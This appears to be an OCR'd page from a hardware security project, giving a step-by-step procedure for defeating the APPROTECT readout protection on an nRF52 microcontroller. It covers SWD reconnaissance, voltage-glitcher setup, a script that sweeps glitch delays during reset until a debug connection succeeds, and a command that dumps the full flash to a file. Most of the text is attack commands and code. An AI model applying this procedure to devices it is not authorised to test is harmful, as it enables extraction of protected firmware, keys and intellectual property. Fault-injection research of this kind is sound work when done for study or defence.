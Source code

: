 ### Attack Procedure

#### Step 1: Initial Reconnaissance

1. Power up the nRF52 without glitching
2. Attempt to connect via SWD:
   ```
   swd scan
   ```
3. Verify that APPROTECT is enabled (connection should fail)

#### Step 2: Configure the Glitcher

1. Set up the voltage glitcher:
   ```
   glitch setup width=5 delay=0 repeat=1
   ```

2. Configure ADC monitoring:
   ```
   adc_stream start channel=0 rate=1000000
   ```

#### Step 3: Glitch During Reset

1. Set up a script to automate the process:
   ```
   # Example script
   for delay in range(0, 200, 5):
       # Configure glitch
       send_command("glitch setup width=5 delay=" + str(delay) + " repeat=1")
       
       # Reset target
       toggle_reset()
       
       # Apply glitch
       send_command("glitch trigger")
       
       # Try to connect via SWD
       if swd_connect():
           print("Success at delay=" + str(delay))
           break
   ```

2. Run the script to find the vulnerable timing window

#### Step 4: Exploit the Vulnerability

Once the correct timing is found:

1. Apply the glitch during reset
2. Connect via SWD:
   ```
   swd connect
   ```
3. Dump the flash memory:
   ```
   swd dump 0x00000000 0x80000 firmware.bin
   ```
